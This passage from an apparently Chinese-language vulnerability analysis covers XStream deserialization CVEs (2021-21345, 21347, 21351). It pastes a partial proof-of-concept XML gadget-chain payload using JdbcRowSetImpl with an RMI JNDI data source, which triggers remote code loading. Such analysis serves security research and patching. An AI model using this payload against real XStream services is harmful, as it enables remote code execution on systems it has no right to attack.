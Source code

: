 该漏洞的整个利用链和CVE-2021-21345如出一辙，不同的地方在于，最后的加载恶意Class的Classloader不再使用URLClassloader去远程加载，而是采用了com.sun.org.apache.bcel.internal.util.ClassLoader，这里相信对FastJson有了解的同学应该不陌生，这里使用了BCEL的方式来进行恶意代码执行

![](_assets/1617677146000-36.png-w331s.png)

但是整个利用链和CVE-2021-21347是一样的，所以这里也就不重复赘述了。

5\. CVE-2021-21351
------------------

粘贴一下POC

```
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                  <listeners/>
                  <params/>
                </default>
```